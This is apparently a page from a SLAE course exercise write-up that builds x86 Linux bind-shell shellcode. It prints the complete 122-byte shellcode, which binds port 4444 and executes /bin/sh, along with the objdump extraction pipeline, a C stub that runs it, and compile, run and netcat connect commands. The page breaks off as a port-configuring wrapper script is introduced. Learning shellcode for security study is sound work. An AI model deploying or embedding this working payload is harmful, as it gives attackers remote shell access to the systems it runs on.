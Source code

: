 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
root@funos:~/shared/SLAE/slae/exercise1# objdump -d ./bindshellasm|grep '[0-9a-f]:'| \
grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '\
|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
\end{verbatim}

We add our opcodes to a stub tester C program:

\begin{verbatim}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();

}
\end{verbatim}

Compile with: \verb~gcc shellcode.c -o shellcode~
Run with: \verb~./shellcode~
Connect with: \verb~nc -nv 127.0.0.1 4444~


And it works! We get our shell. The shellcode is 122 bytes without
really trying to optimize. We can always go back and try to
optimize. We also need to update the program to make the port number
easily configurable.

Let's write a wrapper script to set our port. We just accept the port
as a command line argument to our script and interpolate it into our
shellcode and print out the result:
\end{document}
